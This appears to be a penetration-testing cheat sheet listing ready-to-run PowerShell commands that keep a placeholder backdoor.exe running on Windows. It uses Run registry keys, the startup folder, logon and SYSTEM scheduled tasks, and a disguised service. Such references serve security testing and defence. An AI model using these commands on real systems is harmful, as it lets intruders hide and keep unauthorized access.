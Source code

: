 # Windows - Persistence

## Userland

### Registry

Create a REG_SZ value in the Run key within HKCU\Software\Microsoft\Windows.

```powershell
Value name:  Backdoor
Value data:  C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

### Startup

Create a batch script in the user startup folder.

```powershell
PS C:\> gc C:\Users\Rasta\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\backdoor.bat
start /b C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

### Scheduled Task

```powershell
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe"
PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta"
PS C:\> $P = New-ScheduledTaskPrincipal "Rasta"
PS C:\> $S = New-ScheduledTaskSettingsSet
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
PS C:\> Register-ScheduledTask Backdoor -InputObject $D
```

## Elevated

### HKLM

Similar to HKCU. Create a REG_SZ value in the Run key within HKLM\Software\Microsoft\Windows.

```powershell
Value name:  Backdoor
Value data:  C:\Windows\Temp\backdoor.exe
```

### Services

Create a service that will start automatically or on-demand.

```powershell
PS C:\> New-Service -Name "Backdoor" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Nothing to see here."
```

### Scheduled Tasks

Scheduled Task to run as SYSTEM, everyday at 9am.

```powershell
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Windows\Temp\backdoor.exe"
PS C:\> $T = New-ScheduledTaskTrigger -Daily -At 9am
PS C:\> $P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
PS C:\> $S = New-ScheduledTaskSettingsSet
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
PS C:\> Register-ScheduledTask Backdoor -InputObject $D
```

## References

* [A view of persistence - Rastamouse](https://rastamouse.me/2018/03/a-view-of-persistence/)
* [Windows Persistence Commands - Pwn Wiki](http://pwnwiki.io/#!persistence/windows/index.md)
